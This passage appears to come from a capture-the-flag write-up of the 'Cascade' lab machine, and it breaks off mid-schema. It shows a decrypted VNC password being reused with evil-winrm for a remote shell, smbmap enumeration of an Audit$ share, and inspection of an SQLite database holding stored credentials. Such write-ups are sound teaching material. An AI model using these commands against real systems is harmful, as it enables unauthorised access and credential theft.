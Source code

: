 This can be decrypted using [an online tool](https://github.com/jeroennijhof/vncpwd) to get `sT333ve2`. Finally, s.smith is able to remotely access `cascade.local` which we do over `wsman` using [evil-winrm](https://github.com/Hackplayers/evil-winrm).

```console
$ evil-winrm -P 5985 -u s.smith -p "sT333ve2" -i 10.10.10.182

Evil-WinRM shell v2.3

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\s.smith\Documents> dir ../Desktop/user.txt


    Directory: C:\Users\s.smith\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        4/20/2020   2:20 PM             34 user.txt
```

**Enumeration #3:**
We need to Return to SMB as s.smith. When enumerate SMB we see we have access to a drive r.thompson didn't.

```console
$ python smbmap.py -H cascade.local -u s.smith -p sT333ve2
[snip]
	.
	dr--r--r--                0 Wed Jan 29 18:01:26 2020	.
	dr--r--r--                0 Wed Jan 29 18:01:26 2020	..
	fr--r--r--            13312 Tue Jan 28 21:47:08 2020	CascAudit.exe
	fr--r--r--            12288 Wed Jan 29 18:01:26 2020	CascCrypto.dll
	dr--r--r--                0 Tue Jan 28 21:43:18 2020	DB
	fr--r--r--               45 Tue Jan 28 23:29:47 2020	RunAudit.bat
	fr--r--r--           363520 Tue Jan 28 20:42:18 2020	System.Data.SQLite.dll
	fr--r--r--           186880 Tue Jan 28 20:42:18 2020	System.Data.SQLite.EF6.dll
	dr--r--r--                0 Tue Jan 28 20:42:18 2020	x64
	dr--r--r--                0 Tue Jan 28 20:42:18 2020	x86
	Audit$                                            	READ ONLY
[snip]
```

**Lateral Movement:**
We download the contents of this drive and inspect it locally. We happen across a database file.

```console
$ file DB/Audit.db
DB/Audit.db: SQLite 3.x database, last written using SQLite version 3027002
```

With the knowledge that it is an sqlite3 database, we can inspect the tables.

```console
$ sqlite3
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
Connected to a transient in-memory database.
Use ".open FILENAME" to reopen on a persistent database.
sqlite> .open DB/Audit.db
sqlite> .tables
DeletedUserAudit  Ldap              Misc
sqlite> .schema Ldap
CREATE TABLE IF NOT EXISTS "Ldap" (
	"Id"	INTEGER PRIMARY KEY AUTOINCREMENT,
	"uname"	TEXT,
	"pwd"	TEXT,
```